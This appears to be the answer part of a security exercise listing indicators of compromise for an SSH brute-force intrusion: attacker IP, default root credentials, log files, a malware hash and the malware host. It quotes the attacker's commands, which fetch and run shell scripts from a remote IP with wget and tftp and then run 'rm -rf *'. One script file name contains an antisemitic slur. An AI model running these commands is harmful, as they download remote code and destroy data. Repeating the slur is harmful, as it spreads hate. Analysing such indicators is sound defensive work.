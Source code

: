 <details>
<summary>
<h3>Answer</h3>
</summary>

The indicators of compromise (IOCs) for this attack include:

1. **Source IP of the Attacker**: `138.197.148.152` - This IP address was found to be the source of the malicious SSH login attempts. System logs showing repeated login attempts or traffic from this IP would be a clear sign of potential attack activities.

2. **Brute-force Attempts**: Multiple login attempts using the username `root` and the password `12345678` may indicate brute-force attempts.

3. **Successful Logins**: Successful login messages for the root user, especially from unfamiliar IPs, should be considered suspicious.

4. **Execution of Certain Commands**: The execution of commands related to downloading and the running of malicious scripts are significant IOCs. These activities are red flags for post-exploitation activities:
    - `wget http://213.255.246.81/fuckjewishpeople.sh`
    - `chmod 777 fuckjewishpeople.sh`
    - `sh fuckjewishpeople.sh`
    - `tftp 213.255.246.81 -c get tftp1.sh`
    - `chmod 777 tftp1.sh; sh tftp1.sh`
    - `tftp -r tftp2.sh -g 213.255.246.81`
    - `chmod 777 tftp2.sh; sh tftp2.sh`
    - `rm -rf *`

5. **SSH Logs**: System logs such as `/var/log/secure` or `/var/log/auth.log` will contain entries of login attempts. Successful or failed attempts from the above IP would be a sign of an attempted or successful attack.

6. **Malicious Files**: The presence of any of these files on the server can serve as indicators of compromise:
    - `fuckjewishpeople.sh`
    - `tftp1.sh`
    - `tftp2.sh`

7. **Malware Hash**: The SHA-256 hash of the known malware associated with the attack - `aa043d92421ceff25207e931bde07b17494357cc8e1081a006179530b48af950`.

8. **Network Connections**: Unexpected outbound network connections to the IP address `213.255.246.81`.

9. **Malware Host IP**: The IP address `213.255.246.81` is hosting exploitative scripts. Traffic to this server could indicate malicious activity.

